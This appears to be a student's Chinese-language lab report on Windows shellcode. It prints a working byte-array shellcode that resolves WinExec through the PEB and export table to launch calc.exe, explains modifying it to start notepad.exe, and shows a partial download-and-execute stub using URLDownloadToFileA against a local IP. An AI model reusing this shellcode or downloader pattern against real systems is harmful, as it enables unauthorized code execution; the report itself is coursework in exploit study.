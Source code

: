 

# 实验4-shellcode

## 实验要求

* 把上面这个链接中shellcode能够成功运行
* 能从汇编源码编译通过并成功dump
* 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理
* 修改shellcode功能为运行记事本程序notepad. exe
* (选做，难度较大)修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行（提示，使用原生API UrlDownloadToFileA）

## 实验环境

* windows 10
* Kali 2003
* Visual Studio

## 实验过程

### 1、运行`shellcode`示例

#### 1.1 代码

```
#include <windows.h>
#include <stdio.h>

char code[] = \
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
"\x52\xff\xd0";

int main(int argc, char** argv)
{
    int (*func)();
    //DWORD old_protect;
    //VirtualProtect(code, sizeof(code), PAGE_EXECUTE_READWRITE, &old_protect);
    func = (int(*)()) code;
    (int)(*func)();
}
```

#### 1.2 运行结果：成功

![image-20201022140640653](/chap0x04-shellcode/img/image-20201022140640653.png)

### 2、从汇编源码编译通过并成功dump

通过执行`nasm`和`objdump`命令可以验证。

![image-20201029140022556](/chap0x04-shellcode/img/image-20201029140022556.png)

![image-20201029140214155](/chap0x04-shellcode/img/image-20201029140214155.png)

### 3、PEB

#### 3.1 [PE文件结构](https://blog.csdn.net/qiming_zhang/article/details/7309909)

![](/chap0x04-shellcode/img/pe文件框架结构.png)

#### 3.2 PEB结构

```c++
typedef struct _PEB {
  BYTE                          Reserved1[2];
  BYTE                          BeingDebugged; //被调试状态
  BYTE                          Reserved2[1];
  PVOID                         Reserved3[2];
  PPEB_LDR_DATA                 Ldr;
  PRTL_USER_PROCESS_PARAMETERS  ProcessParameters;
  BYTE                          Reserved4[104];
  PVOID                         Reserved5[52];
  PPS_POST_PROCESS_INIT_ROUTINE PostProcessInitRoutine;
  BYTE                          Reserved6[128];
  PVOID                         Reserved7[1];
  ULONG                         SessionId;
} PEB, *PPEB;
```

#### 3.3 Shellcode原理

​		Shellcode实际是一段代码(也可以是填充数据)，可以用来发送到服务器，利用已存在的特定漏洞造成溢出，通称“缓冲区溢出攻击”中植入进程的代码。这段代码可以是导致常见的恶作剧目的的弹出一个消息框弹出，也可以用来删改重要文件、窃取数据、上传木马病毒并运行，甚至是出于破坏目的的格式化硬盘等等。

### 4、修改shellcode功能为运行记事本程序notepad. exe

#### 4.1 修改代码：将`calc.exe`修改为`notepad.exe`

`00 00 00 00 65 78 65 2e 63 6c 61 63`->`00 65 78 65 2e 64 61 70 65 74 6f 6e`

![image-20201029145659148](/chap0x04-shellcode/img/image-20201029145659148.png)

#### 4.2 重新`dump`

![image-20201029150255387](/chap0x04-shellcode/img/image-20201029150255387.png)

#### 4.3 将结果粘贴到代码里，重新运行

![image-20201029150353246](/chap0x04-shellcode/img/image-20201029150353246.png)

### 5、修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行

#### 5.1 代码

```
#include<Windows.h>
#include<urlmon.h>

typedef int(WINAPI* MY_DOWNLOAD_PROC)(LPUNKNOWN, LPCSTR, LPCSTR, DWORD, LPBINDSTATUSCALLBACK);

int main()
{
	HMODULE hurlmod = LoadLibrary("urlmon.dll");
	MY_DOWNLOAD_PROC function_ptr = (MY_DOWNLOAD_PROC)GetProcAddress(hurlmod, "URLDownloadToFileA");
	function_ptr(NULL, "192.168.9.3:8000/workspace/shellcode.exe", "a.exe", 0, NULL);
	//CreateProcess
	//WinExec("a.exe", SW_HIDE);
}
```

报错：

![image-20201029212538113](/chap0x04-shellcode/img/image-20201029212538113.png)

